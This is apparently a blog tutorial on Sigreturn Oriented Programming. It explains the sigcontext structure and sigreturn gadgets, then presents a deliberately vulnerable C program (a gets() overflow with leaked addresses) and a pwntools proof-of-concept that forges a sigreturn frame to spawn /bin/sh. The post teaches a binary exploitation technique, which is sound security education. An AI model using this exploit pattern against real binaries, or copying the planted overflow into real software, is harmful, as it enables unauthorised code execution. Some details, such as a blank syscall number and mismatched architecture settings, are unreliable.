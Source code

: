 ```yaml
---
layout: post
title: How to SROP
author: adamt
---
```


Sigreturn Orientated programming (SROP) is a cool exploitation technique that allows an attacker to control the entire state of the CPU with a single syscall and some stack space, possibly leading to code execution.


[tl;dr](https://github.com/adamtanana/SROP-walkthrough)

How to haq
------------------

SROP is very similar to ROP, in which by controlling the stack and the instruction pointer, the attacker is able to influence the control flow of the program through a sequence of gadgets (Small sets of instructions ending in a `ret` or `call` instruction). 
<br />
In cases where there aren't enough gadgets, or no gadgets that allow the attacker to execute arbritrary code, SROP may be a possible solution.  
<br />
<br />
SROP works by pushing a forged `sigcontext` structure to the stack, and then overwriting the return address with the location of a gadget(s) that will allow the attacker to execute the sigreturn syscall. 

An example sigcontext struct can be seen here from x86 Linux libc
<br />
<https://github.com/lattera/glibc/blob/master/sysdeps/unix/sysv/linux/x86/bits/sigcontext.h#L95>
```c
struct sigcontext
{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

<br />
An example of the kind of gadget needed for SROP exploits can always be found in the VDSO memory area on x86-Linux systems
<br />
However this can be constructed via multiple gadgets, and effectively just require setting eax to the syscall number of sysreturn, and then calling a syscall/int 0x80 instruction
<br />
```c
  pop     eax
  mov     eax, 0x77
  int     0x80;
  nop
  lea     esi, [esi+0]
```
This will execute a sigreturn syscall. <br />

Example/Actually how to do it
---------------

Here is an example of SROP in a 32 bit linux environment. Luckily `pwntools` comes handy with a SROP library which allows us to construct a sigcontext for any architecture without needing to worry about the exact ordering and sizing of each element. I'll utilise this below 

Example 32bit vulnerable code
```c
#include <stdio.h>
#include <stdlib.h>

static char* dodgy = "/bin/sh";

void func() {
    __asm__(  // all typical things found via a libc leak, or a large binary
          "mov $0x77, %eax;"
          "ret;"
          "int $0x80"
            );
}
void vuln() {
    printf("Hey look its a cheeky gadget\n");
    printf("func: %p\n", func);
    printf("/bin/sh: %p\n", dodgy);

    char buf[4];
    gets(buf);
}

int main() {
    vuln();
}
```
The code has the 3 requirements needed to leverage the SROP technique.

- Gadget(s) that will call the sigreturn syscall (In i386 linux this is syscall number 0x77, in amd64 linux it is )
- Enough Stack space to place an entire `sigcontext` struct
- Somewhere to jump to after the syscall has been evoked 

(in this case we can just jump to the syscall(int 0x80) gadget since we can ensure all registers are set to the required values to execute any syscall)
<br />

We can construct our sigreturn frame, setting the relevant registers required to execute an execve syscall, and then gain shell via a single ROP Gadget. Below is a POC

```python
from pwn import *


def leak(p):                               # Leak the address of our planted  
    p.recvuntil("func: 0x")
    func = int(p.recvline(), 16)

    p.recvuntil("/bin/sh: 0x")
    binsh = int(p.recvline(), 16)

    log.info("Func 0x%x. /bin/sh 0x%x" % (func, binsh))

    return func, binsh

def main():
    context.arch = 'i386'
    p = process("./srop32")

    func, binsh = leak(p)

    moveax = func + 13
    int0x80 = func + 19

    frame = SigreturnFrame(kernel='amd64') # Construct our Sig Return Frame
    frame.eax = constants.SYS_execve       # Syscall to call
    frame.ebx = binsh                      # First argument to execve
    frame.eip = int0x80                    # Return here after the syscall


    payload = 'A' * 16                     # Overflow the buffer
    payload += p32(moveax)                 # Mov 0x77 into eax (SYS_sigreturn)
    payload += p32(int0x80)                # Evoke the syscall
    payload += str(frame)                  # Fill the stack with our sigreturn frame
    p.sendline(payload)


    p.interactive()

if __name__ == "__main__":
    main()
```

